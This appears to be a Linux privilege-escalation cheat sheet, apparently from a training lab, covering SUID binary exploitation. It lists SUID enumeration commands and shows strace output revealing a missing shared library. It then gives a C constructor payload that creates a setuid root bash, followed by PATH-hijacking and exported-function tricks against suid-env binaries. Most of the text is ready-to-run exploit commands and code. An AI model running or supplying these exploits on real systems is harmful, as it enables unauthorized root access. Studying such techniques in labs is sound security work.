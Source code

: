    ## Enumeration
    
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
    find / -perm -u=s -type f 2>/dev/null
    find / -type f -perm -04000 -ls 2>/dev/null
        
        
   ## Resource 
   
     https://gtfobins.github.io/
       
  ## Shared Object Injection
  
    find / -type f -perm -04000 -ls 2>/dev/null
    strace <PATH=2>&1
       
       
  ## TYPE COMMAND 
  
    strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
  
  
  ## OUTPUT
 
         
         
## access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
## open("/etc/ld.so.cache", O_RDONLY)      = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libdl.so.2", O_RDONLY)       = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libm.so.6", O_RDONLY)        = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
## access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
## open("/lib/libc.so.6", O_RDONLY)        = 3
## open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)


   ## Exploit Shared Object Injection
   
   mkdir /home/user/.config
       
   Create C file Type Some Commands
       
    #include <stdio.h>
    #include <stdlib.h>

    static void inject()__attribute__((constructor));

    void inject() {
      system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
   
   ## Complie

    gcc -shared -fpic -o /home/user/.config/libcalc.so /home/user/libcalc.c


  ## Run The Program
  
    /usr/local/bin/suid-so

   ####  Environment Variables
                
    env
    find / -type f -perm -04000 -ls 2>/dev/null
    /usr/local/bin/suid-env
    strings /usr/local/bin/suid-env
    echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
    gcc /tmp/service.c -o /tmp/service
    export PATH=/tmp:$PATH
    print $PATH
    /usr/local/bin/suid-env
    function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
    export -f /usr/sbin/service
    /usr/local/bin/suid-env2





     
    
